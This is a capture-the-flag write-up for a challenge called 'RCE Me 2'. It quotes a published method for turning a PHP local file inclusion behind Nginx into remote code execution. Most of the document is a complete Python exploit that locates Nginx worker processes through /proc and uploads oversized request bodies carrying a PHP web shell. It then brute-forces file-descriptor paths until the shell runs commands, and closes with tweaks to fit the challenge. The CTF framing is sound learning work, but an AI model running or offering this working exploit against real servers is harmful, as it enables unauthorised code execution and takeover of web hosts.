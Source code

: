 # KMA CTF - RCE Me 2

**hints**: https://bierbaumer.net/security/php-lfi-with-nginx-assistance/https://bierbaumer.net/security/php-lfi-with-nginx-assistance/

**PHP LFI with Nginx Assistance**:
This post presents a new method to exploit local file inclusion (LFI) vulnerabilities in utmost generality, assuming only that `PHP is running in combination with Nginx` under a common `standard configuration`. The technique was discovered while developing the includer's revenge / counter challenges from the hxp CTF 2021.
.......
Luckily PHP is currently often deployed via `PHP-FPM and Nginx`. Nginx offers an `easily-overlooked client body buffering` feature which will `write temporary files` if the client body (not limited to post) is `bigger than a certain threshold`.

This feature `allows LFIs to be exploited without any other way of creating files`, if `Nginx runs as the same user as PHP` (very commonly done as www-data).

```python
Full Exploit:
#!/usr/bin/env python3
import sys, threading, requests

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance
# see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'

# find nginx worker processes 
r  = requests.get(URL, params={
    'file': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    'file': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        'file': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
            break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()

# brute force nginx's fds to include body files via procfs
# use ../../ to bypass include's readlink / stat problems with resolving fds to `/var/lib/nginx/body/0000001150 (deleted)`
def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                'file': f,
                'c': f'id'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```

We just have to edit a little of those code to fit with this challenge: 

  file -> l
  
  pid_max = 4194304
  
  edit break loop condition where `r.text` always return True(save r.text at the beginning and use it to compare to every loop)
  
